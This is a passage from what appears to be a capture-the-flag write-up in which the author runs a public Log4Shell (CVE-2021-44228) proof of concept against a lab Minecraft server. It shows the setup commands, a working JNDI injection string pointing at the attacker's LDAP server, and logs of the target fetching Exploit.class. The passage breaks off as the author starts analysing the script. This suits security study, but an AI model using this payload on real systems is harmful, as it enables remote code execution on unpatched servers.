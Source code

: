

    oxdf@hacky$ tar xf jdk-8u20-linux-x64.tar.gz 
    oxdf@hacky$ rm jdk-8u20-linux-x64.tar.gz 
    oxdf@hacky$ ls
    Dockerfile  jdk1.8.0_20  LICENSE  poc.py  README.md  requirements.txt  target  vulnerable-application



#### Run Fail

I'll run the exploit, giving it my IP, a web port to listen on, and the
port I want a shell back on:



    oxdf@hacky$ python poc.py --userip 10.10.14.6 --webport 8000 --lport 443

    [!] CVE: CVE-2021-44228
    [!] Github repo: https://github.com/kozmer/log4j-shell-poc

    [+] Exploit java class created success
    [+] Setting up LDAP server

    [+] Send me: ${jndi:ldap://10.10.14.6:1389/a}

    [+] Starting Webserver on port 8000 http://0.0.0.0:8000
    Listening on 0.0.0.0:1389



It gives me this `${jndi:ldap://10.10.14.6:1389/a}` payload, which I can
send to Minecraft (and when I do it :



    <0xdf> ${jndi:ldap://10.10.14.6:1389/a}
    ‌> 



There's requests at the exploit server:



    Listening on 0.0.0.0:1389
    Send LDAP reference result for a redirecting to http://10.10.14.6:8000/Exploit.class
    10.10.11.249 - - [10/Jun/2024 17:47:28] "GET /Exploit.class HTTP/1.1" 200 -
    Send LDAP reference result for a redirecting to http://10.10.14.6:8000/Exploit.class
    10.10.11.249 - - [10/Jun/2024 17:47:29] "GET /Exploit.class HTTP/1.1" 200 -
    Send LDAP reference result for a redirecting to http://10.10.14.6:8000/Exploit.class
    10.10.11.249 - - [10/Jun/2024 17:47:29] "GET /Exploit.class HTTP/1.1" 200 -



But no shell connection at `nc`.

#### POC Analysis

The `poc.py` script starts off with a `generate_payload` function that
starts defining a template Java program on [lines
15-54](https://github.com/kozmer/log4j-shell-poc/blob/main/poc.py#L15-L54):
